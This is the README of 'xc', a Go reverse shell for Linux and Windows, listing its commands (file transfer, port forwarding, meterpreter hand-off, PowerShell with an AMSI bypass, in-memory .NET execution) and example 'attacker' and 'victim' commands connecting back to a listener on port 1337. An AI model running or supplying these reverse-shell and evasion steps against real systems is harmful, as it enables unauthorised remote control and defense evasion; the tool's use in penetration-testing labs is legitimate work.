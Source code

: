 # xc

Netcat like reverse shell for Linux & Windows. This is/was my project for learning golang so expect some bugs. If you want to support this project you can reach out to me on twitter or discord - plenty of things to work on ;)

## Features

### Windows

```  
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
  !powershell
    * starts powershell with AMSI Bypass
  !rc <port>
    * connects to a local bind shell and restarts this client over it
  !runasps <username> <password> <domain>
    * restart xc with the specified user using powershell
  !vulns
    * checks for common vulnerabilities
  !net <sample.exe> <arg1> <arg2> ...
    * Uploads & Runs a .NET assembly from memory
``` 

### Linux

```
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
 !ssh <port>
   * starts sshd with the configured keys on the specified port
``` 

## Examples

- Linux Attacker:	  `rlwrap xc -l -p 1337`			(Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	  (Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

Make sure you are running golang version 1.15+, older versions will not compile. I tested it on ubuntu: `go version go1.16.2 linux/amd64`.

``` 
go get golang.org/x/sys/windows
go get golang.org/x/text/encoding/unicode
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
pip3 install donut-shellcode
sudo apt-get install rlwrap
sudo apt-get install upx
``` 

Linux:
```
make
```

## Known Issues

* When !lfwd fails due to lack of permissions (missing sudo), the entry in !lsfwd is still created
* Can't Ctrl+C out of powershell started from !shell
* !net (execute-assembly) fails after using it a few times - for now you can !restart and it might work again
* Tested:
  - Kali (Attacker) Win 10 (Victim)

## Credits

* Included PrivescCheck by itm4n for Windows Clients: https://github.com/itm4n/PrivescCheck  